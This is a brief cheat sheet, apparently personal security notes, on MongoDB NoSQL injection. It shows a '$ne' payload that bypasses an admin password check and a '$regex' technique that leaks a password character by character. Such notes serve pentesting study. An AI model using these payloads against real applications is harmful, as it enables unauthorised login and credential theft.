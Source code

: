 #sqli #mongo 

# Not Equal

### Code
```php
users.findOne({"info.name": "admin", "info.password": $pass})
```

### Injection
```
$pass = {"$ne": "test"}
```

### Result
Return users that are Not Equal to “test”. 
```php
users.findOne({"info.name": "admin", "info.password": {"$ne": "test"}})
```


# Regex - Exfiltrate Password

```
{"$regex": "A"} -> False
{"$regex": "F"} -> True

{"$regex": "FA"} -> False
{"$regex": "FL"} -> True

{"$regex": "FLA"} -> True
```
